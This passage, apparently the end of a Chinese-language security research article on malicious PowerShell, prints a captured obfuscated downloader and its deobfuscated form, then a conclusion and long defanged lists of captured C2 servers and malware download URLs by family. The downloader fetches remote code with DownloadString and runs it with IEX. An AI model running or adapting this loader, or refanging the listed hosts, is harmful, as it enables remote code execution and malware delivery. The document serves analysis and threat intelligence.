$Vsn2l6 =  [type]("{3}{0}{1}{2}" -F'UE','S','t','Net.webreq') ;  $h69Q4  =[TYPe]("{1}{2}{3}{4}{0}"-F 'he','nEt.C','REDeNtialC','a','c') ;  ${J}=&amp;amp;("{0}{1}{2}"-f 'new-obj','ec','t') ("{2}{1}{0}{3}" -f 'eb','.w','net','client');${j}."PRo`XY"=  ( VaRIablE  vsn2L6 ).VaLuE::("{0}{3}{2}{4}{1}"-f'GetS','Proxy','em','yst','Web').Invoke();${j}."pr`OXY"."C`RE`De`NTiALs"= (  GeT-VariaBle  H69Q4).VaLUe::"DE`Faultcred`en`TI`ALS";.("{0}{1}"-f 'I','EX') ${J}.("{1}{3}{2}{0}" -f 'string','do','load','wn').Invoke(("{3}{1}{9}{11}{8}{13}{0}{4}{15}{5}{10}{2}{12}{14}{7}{6}" -f'5','tp://','mput','ht','.us','t','0/anSfrf','8','185-','e','-2.co','c2-35-167-','e.amazona','5','ws[.]com:80','-wes'));
```

以下是对代码进行清理后的版本，可知其功能是远程下载代码并通过Invoke-Expression执行代码。


```
$Vsn2l6 = [type]Net.webreqUESt;
$h69Q4 = [TYPe]nEt.CREDeNtialCache;
&amp;amp;new-object net.webclient;
PRoXY= $Vsn2l6.VaLuE::GetSystemWebProxy.Invoke();
prOXY.CREDeNTiALs = ( GeT-VariaBle $h69Q4 ).VaLUe::DEFaultcredenTIALS;
.IEX downloadstring.Invoke(http://ec2-35-167-185-55.us-west-2.compute.amazonaws[.]com:8080/anSfrf);
```


**五、结论**

PowerShell是一个强大的脚本框架，可以提供很多功能，不管是防御方面的功能还是攻击方面的功能。希望本文能够覆盖当前工具和攻击中PowerShell所使用的一些先进技术点。

通过本文所分析的样本，我们可知大多数攻击活动依然依赖于公共工具的使用，这也在我们的意料之中。随着PowerShell框架不断得到探索和成熟，我认为在将来人们可以看到利用PowerShell开展攻击的更多形态。随着对PowerShell使用方式的逐步创新，攻击者将开始使用PowerShell以利用系统的更多原生功能，而不仅仅是现阶段对PowerShell常见功能的使用。

<br>

**六、捕获的C2服务器地址或下载链接**


```
6.1 Downloader DFSP
675hxxp://94[.]102.53.238/~yahoo/csrsv.exe
244hxxp://89[.]248.170.218/~yahoo/csrsv.exe
132hxxp://94[.]102.58.30/~trevor/winx64.exe
70hxxp://80[.]82.64.45/~yakar/msvmonr.exe
24hxxp://89[.]248.166.140/~zebra/iesecv.exe
18hxxp://cajos[.]in/0x/1.exe
14hxxp://93[.]174.94.137/~karma/scvhost.exe
6hxxp://ddl7[.]data.hu/get/0/9507148/Patload.exe
5hxxp://nikil[.]tk/p1/Pa_001.exe
5hxxp://185[.]45.193.17/update.exe
5hxxp://185[.]141.27.28/update.exe
4hxxps://a[.]pomf.cat/xsakpo.exe
4hxxp://185[.]141.27.35/update.exe
3hxxp://www[.]macwizinfo.com/updates/anna.exe
3hxxp://worldnit[.]com/opera.exe
3hxxp://doc[.]cherrycoffeeequipment.com/nw/logo.png
3hxxp://185[.]141.25.142/update.exe
3hxxp://185[.]117.75.43/update.exe
3hxxp://185[.]106.122.64/update.exe
2hxxp://185[.]141.25.243/file.exe
2hxxp://185[.]141.27.32/update.exe
2hxxp://185[.]141.27.34/update.exe
2hxxp://andersonken4791[.]pserver.ru/doc.exe
2hxxp://boisedelariviere[.]com/backup/css/newconfig.exe
2hxxp://brokelimiteds[.]in/wp-admin/css/upload/Order.exe
2hxxp://ddl7[.]data.hu/get/0/9499830/money.exe
2hxxp://fetzhost[.]net/files/044ae4aa5e0f2e8df02bd41bdc2670b0.exe
2hxxp://hnng[.]moe/f/InX
2hxxp://hnng[.]moe/f/Iot
2hxxp://labid[.]com.my/m/m1.exe
2hxxp://labid[.]com.my/power/powex.exe
2hxxp://labid[.]com.my/spe/spendy.exe
2hxxp://lvrxd[.]3eeweb.com/nano/Calculator.exe
2hxxp://matkalv[.]5gbfree.com/loso/fasoo.exe
2hxxp://net[.]gethost.pw/windro.exe
2hxxp://nikil[.]tk/i1/iz_001.exe
2hxxp://rgho[.]st/68lJcGFLW
2hxxp://rgho[.]st/6hrkjYlX4
2hxxp://toxicsolutions[.]ru/upload/praisefud.exe
2hxxp://worldnit[.]com/KUKU.exe
2hxxp://worldnit[.]com/kundelo.exe
2hxxp://worldnit[.]com/operamini.exe
2hxxp://www[.]wealthandhealthops.com/modules/mod_easyblogquickpost/lawdsijdoef.exe
2hxxps://a[.]pomf.cat/drktzz.exe
2hxxps://a[.]pomf.cat/dwnysn.exe
2hxxps://a[.]pomf.cat/dwnysn.exe
2hxxps://a[.]pomf.cat/hsmqrh.exe
2hxxps://a[.]pomf.cat/mjnspx.exe
2hxxps://a[.]pomf.cat/pabfzv.exe
2hxxps://a[.]pomf.cat/qolcls.exe
2hxxps://a[.]pomf.cat/tpaesb.exe
2hxxps://a[.]pomf.cat/ultxkr.exe
2hxxps://a[.]pomf.cat/vhcwbo.exe
2hxxps://a[.]pomf.cat/vjadwb.exe
2hxxps://a[.]pomf.cat/wopkwj.exe
2hxxps://a[.]pomf.cat/yspcsr.exe
2hxxps://www[.]dropbox.com/s/gx6kxkfi7ky2j6f/Dropbox.exe?dl=1
1hxxp://185[.]106.122.62/file.exe
1hxxp://185[.]45.193.169/update.exe
1hxxp://31[.]184.234.74/crypted/1080qw.exe
1hxxp://aircraftpns[.]com/_layout/images/sysmonitor.exe
1hxxp://allbestunlockerpro[.]com/flash.player.exe
1hxxp://anonfile[.]xyz/f/3d0a4fb54941eb10214f3c1a5fb3ed99.exe
1hxxp://anonfile[.]xyz/f/921e1b3c55168c2632318b6d22a7bfe6.exe
1hxxp://brokelimiteds[.]in/wp-admin/css/upload/ken1.exe
1hxxp://cajos[.]in/0x/1.exe
1hxxp://danhviet[.]com.vn/app/p2.exe
1hxxp://danhviet[.]com.vn/z/v/doc.exe
1hxxp://daratad[.]5gbfree.com/uses/word.exe
1hxxp://ddl2[.]data.hu/get/0/9589621/k000.exe
1hxxp://ddl3[.]data.hu/get/0/9535517/yhaooo.exe
1hxxp://ddl3[.]data.hu/get/0/9551162/ske.exe
1hxxp://ddl7[.]data.hu/get/0/9552103/PFIfdp.exe
1hxxp://getlohnumceders[.]honor.es/kimt.exe
1hxxp://hinrichsen[.]de/assets/win1/win1.exe
1hxxp://icbg-iq[.]com/Scripts/kinetics/categories/3rmax.exe
1hxxp://khoun-legal[.]com/download/ctob.exe
1hxxp://kiana[.]com/flowplayer/aquafresh.exe
1hxxp://labid[.]com.my/power/powex.exe
1hxxp://matkalv[.]5gbfree.com/calab/calafile.exe
1hxxp://matkalv[.]5gbfree.com/noza/odeee.exe
1hxxp://matkalv[.]5gbfree.com/owee/owe.exe
1hxxp://matkalv[.]5gbfree.com/vosa/doc.exe
1hxxp://nikil[.]tk/b1/bo_001.exe
1hxxp://nikil[.]tk/k1/ik_001.exe
1hxxp://sukem[.]zapto.org/word.exe
1hxxp://trolda[.]5gbfree.com/fosee/doc.exe
1hxxp://worldnit[.]com/aba.exe
1hxxp://worldnit[.]com/aba.exe
1hxxp://worldnit[.]com/abacoss.exe
1hxxp://worldnit[.]com/abuchi.exe
1hxxp://worldnit[.]com/com.exe
1hxxp://worldnit[.]com/com.exe
1hxxp://worldnit[.]com/compu.exe
1hxxp://worldnit[.]com/comu.exe
1hxxp://worldnit[.]com/firefox32.exe
1hxxp://worldnit[.]com/igbo.exe
1hxxp://worldnit[.]com/immo.exe
1hxxp://worldnit[.]com/kele.exe
1hxxp://worldnit[.]com/kelle.exe
1hxxp://worldnit[.]com/kells.exe
1hxxp://worldnit[.]com/kuku.exe
1hxxp://worldnit[.]com/nigga.exe
1hxxp://worldnit[.]com/nigga.exe
1hxxp://worldnit[.]com/office.exe
1hxxp://worldnit[.]com/pony.exe
1hxxp://worldnit[.]com/seccrypt.exe
1hxxp://worldnit[.]com/sect.exe
1hxxp://www[.]athensheartcenter.com/crm/cgi-bin/lnm.exe
1hxxp://www[.]bryonz.com/emotions/files/lnwe.exe
1hxxp://www[.]fluidsystems.ml/P1/Pa_001.exe
1hxxp://www[.]macwizinfo.com/updates/eter.exe
1hxxp://www[.]matrimonioadvisor.it/pariglia.exe
1hxxp://www[.]pelicanlinetravels.com/images/xvcbkty.exe
1hxxp://www[.]telemedia.co.za/wp-content/ozone/slim.exe
1hxxp://www[.]wealthandhealthops.com/modules/mod_easybloglist/kntgszu.exe
1hxxp://www[.]wvhmedicine.ru/1/P2.exe
1hxxps://1fichier[.]com/?hfshjhm0yf
1hxxps://1fichier[.]com/?v8w3g736hj
1hxxps://a[.]pomf.cat/jfyywz.exe
1hxxps://a[.]pomf.cat/klckcp.exe
1hxxps://a[.]pomf.cat/wopkwj.exe
1hxxps://a[.]pomf.cat/yhggkj.exe
1hxxps://dryversdocumentgritsettings[.]com/javaupdat3s2016.exe
1hxxps://megadl[.]fr/?b5r5bstqd1
1hxxps://srv-file1[.]gofile.io/download/SJLKaG/84.200.65.20/wscript.exe
6.2 PowerShell Empire
39hxxp://198[.]18.133.111:8081/index.asp
8hxxp://95[.]211.139.88:80/index.asp
5hxxps://46[.]101.90.248:443/index.asp
5hxxp://microsoft-update7[.]myvnc.com:443/index.asp
5hxxp://145[.]131.7.190:8080/index.asp
3hxxps://52[.]39.227.108:443/index.asp
3hxxp://vanesa[.]ddns.net:443/index.asp
3hxxp://polygon[.]1dn0.xyz/index.asp
3hxxp://159[.]203.18.172:8080/index.asp
2hxxps://dsecti0n[.]gotdns.ch:8080/index.asp
2hxxps://69[.]20.66.229:9443/index.asp
2hxxps://50[.]3.74.72:8080/index.asp
2hxxps://205[.]232.71.92:443/index.asp
2hxxp://hop[.]wellsfargolegal.com/index.asp
2hxxp://ciagov[.]gotdns.ch:8080/index.asp
2hxxp://chgvaswks045[.]efgz.efg.corp:888/index.asp
2hxxp://ads[.]mygoogle-analytics.com:80/index.asp
2hxxp://84[.]200.84.185:443/index.asp
2hxxp://84[.]14.146.74:443/index.asp
2hxxp://66[.]11.115.25:8080/index.asp
2hxxp://64[.]137.176.174:12345/index.asp
2hxxp://52[.]28.242.165:8080/index.asp
2hxxp://52[.]19.131.17:80/index.asp
2hxxp://23[.]239.12.15:8080/index.asp
2hxxp://212[.]99.114.202:443/count.php?user=
2hxxp://188[.]68.59.11:8081/index.asp
2hxxp://185[.]117.72.45:8080/index.asp
2hxxp://163[.]172.175.132:8089/index.asp
2hxxp://159[.]203.89.248:80/index.asp
2hxxp://14[.]144.144.66:8081/index.asp
2hxxp://103[.]238.227.201:7788/index.asp
1hxxps://www[.]enterprizehost.com:9443/index.asp
1hxxps://sixeight[.]av-update.com:443/index.asp
1hxxps://remote-01[.]web-access.us/index.asp
1hxxps://msauth[.]net/index.asp
1hxxps://metrowifi[.]no-ip.org:8443/index.asp
1hxxps://megalon[.]trustwave.com:443/index.asp
1hxxps://mail[.]microsoft-invites.com/index.asp
1hxxps://logexpert[.]eu/index.asp
1hxxps://host-101[.]ipsec.io/index.asp
1hxxps://93[.]176.84.45:443/index.asp
1hxxps://93[.]176.84.34:443/index.asp
1hxxps://66[.]60.224.82:443/index.asp
1hxxps://66[.]192.70.39:443/index.asp
1hxxps://66[.]192.70.38:80/index.asp
1hxxps://52[.]86.125.177:443/index.asp
1hxxps://50[.]251.57.67:8080/index.asp
1hxxps://46[.]101.203.156:443/index.asp
1hxxps://46[.]101.185.146:8080/index.asp
1hxxps://45[.]63.109.205:8443/index.asp
1hxxps://172[.]30.18.11:443/index.asp
1hxxps://146[.]148.58.157:8088/index.asp
1hxxps://108[.]61.211.36/index.asp
1hxxps://107[.]170.132.24:443/index.asp
1hxxps://104[.]131.182.177:443/index.asp
1hxxp://sparta34[.]no-ip.biz:443/index.asp
1hxxp://securetx[.]ddns.net:3333/index.asp
1hxxp://pie32[.]mooo.com:8080/index.asp
1hxxp://m[.]jdirving.email:21/index.asp
1hxxp://kooks[.]ddns.net:4444:4444/index.asp
1hxxp://kernel32[.]ddns.net:8080/index.asp
1hxxp://home[.]rzepka.se/index.asp
1hxxp://192.ho4x.com:80/index.asp
1hxxp://ec2-35-167-185-55[.]us-west-2.compute.amazonaws.com:443/index.asp
1hxxp://amazonsdeliveries[.]com/index.asp
1hxxp://ahyses[.]ddns.net:4444/index.asp
1hxxp://98[.]103.103.170:80/index.asp
1hxxp://98[.]103.103.168:80/index.asp
1hxxp://93[.]187.43.200:80/index.asp
1hxxp://84[.]200.2.13:8080/index.asp
1hxxp://78[.]229.133.134:80/index.asp
1hxxp://68[.]66.9.76/index.asp
1hxxp://52[.]36.245.145:8080/index.asp
1hxxp://52[.]28.250.99:8080/index.asp
1hxxp://52[.]196.119.113:80/index.asp
1hxxp://50[.]251.57.67:8080/index.asp
1hxxp://47[.]88.17.109:80/index.asp
1hxxp://46[.]246.87.205/index.asp
1hxxp://41[.]230.232.65:5552:5552/index.asp
1hxxp://24[.]111.1.135:22/index.asp
1hxxp://23[.]116.90.9:80/index.asp
1hxxp://222[.]230.139.166:80/index.asp
1hxxp://197[.]85.191.186:80/index.asp
1hxxp://197[.]85.191.186:443/index.asp
1hxxp://192[.]241.129.69:443/index.asp
1hxxp://191[.]101.31.118:8081/index.asp
1hxxp://187[.]228.46.144:8888/index.asp
1hxxp://187[.]177.151.80:12345/index.asp
1hxxp://166[.]78.124.106:80/index.asp
1hxxp://163[.]172.151.90:80/index.asp
1hxxp://149[.]56.178.124:8080/index.asp
1hxxp://139[.]59.12.202:80/index.asp
1hxxp://138[.]121.170.12:500/index.asp
1hxxp://138[.]121.170.12:3138/index.asp
1hxxp://138[.]121.170.12:3137/index.asp
1hxxp://138[.]121.170.12:3136/index.asp
1hxxp://138[.]121.170.12:3135/index.asp
1hxxp://138[.]121.170.12:3133/index.asp
1hxxp://138[.]121.170.12:3031/index.asp
1hxxp://137[.]117.188.120:443/index.asp
1hxxp://11[.]79.40.53:80/index.asp
1hxxp://108[.]61.217.22:443/index.asp
1hxxp://104[.]233.102.23:8080/index.asp
1hxxp://104[.]145.225.3:8081/index.asp
1hxxp://104[.]131.154.119:8080/index.asp
1hxxp://104[.]130.51.215:80/index.asp
1hxxp://100[.]100.100.100:8080/index.asp
6.3 Downloader DFSP 2X
25hxxp://93[.]174.94.135/~kali/ketty.exe
19hxxp://94[.]102.52.13/~yahoo/stchost.exe
17hxxp://93[.]174.94.137/~rama/jusched.exe
17hxxp://94[.]102.52.13/~harvy/scvhost.exe
2hxxp://10[.]10.01.10/bahoo/stchost.exe
1hxxp://93[.]174.94.135/~harvy/verfgt.exe
6.4 Downloader DFSP DPL
6hxxp://84[.]200.84.187/Google Update Check.html
2hxxp://52[.]183.79.94:80/TYBMkTfsQ
2hxxp://76[.]74.127.38/default-nco.html
2hxxp://pmlabs[.]net/cis/test.jpg
2hxxps://wowyy[.]ga/counter.php?c=pdfxpl+
1hxxp://192[.]168.137.241:8080/
1hxxp://91[.]120.23.152/wizz.txt
1hxxp://93[.]171.205.35:8080/
1hxxp://cannot[.]loginto.me/googlehelper.ps1
1hxxps://invesco[.]online/aaa
6.5 Downloader IEXDS
6hxxp://84[.]200.84.187/Google Update Check.html
2hxxp://52[.]183.79.94:80/TYBMkTfsQ
2hxxp://76[.]74.127.38/default-nco.html
2hxxp://pmlabs[.]net/cis/test.jpg
2hxxps://wowyy[.]ga/counter.php?c=pdfxpl+
1hxxp://192[.]168.137.241:8080/
1hxxp://91[.]120.23.152/wizz.txt
1hxxp://93[.]171.205.35:8080/
1hxxp://cannot[.]loginto.me/googlehelper.ps1
1hxxps://invesco[.]online/aaa
6.6 BITS Transfer
11hxxp://94[.]102.50.39/keyt.exe
6.7 TXT C2
4l[.]ns.topbrains.pl
2p[.]s.os.ns.rankingplac.pl
1l[.]ns.huawel.ro
1p[.]s.pn.ns.sse.net.pl
1p[.]s.rk.ns.rankingplac.pl
1p[.]s.w2.ns.rankingplac.pl
6.8 Downloader Proxy
7hxxp://54[.]213.195.138/s2.txt?u=
1hxxp://www[.]bcbs-arizona.org/s2.txt?u=
1hxxp://www[.]bcbsarizona.org/s2.txt?u=
6.9 Downloader Kraken
5hxxp://kulup[.]isikun.edu.tr/Kraken.jpg
6.10 PowerWorm
12hxxp://powerwormjqj42hu[.]onion/get.php?s=setup&amp;amp;mom=
7hxxp://powerwormjqj42hu[.]onion/get.php?s=setup&amp;amp;uid=
6.11 AMSI Bypass
4hxxp://35[.]165.38.15:80/login/process.php
1hxxp://amazonsdeliveries[.]com:80/account/login.php
1hxxp://35[.]164.97.4:80/admin/get.php
1hxxp://162[.]253.133.189:443/login/process.php
1hxxp://162[.]253.133.189:443/admin/get.php
6.12 Meterpreter RHTTP
1198[.]56.248.117
162[.]109.8.21
165[.]112.221.34
188[.]160.254.183
6.13 Layer of Obfuscation
1hxxp://ec2-35-167-185-55[.]us-west-2.compute.amazonaws.com:8080/anSfrf
6.14 SHA1 Hashtag
1hxxp://212[.]83.186.207/?i=
```


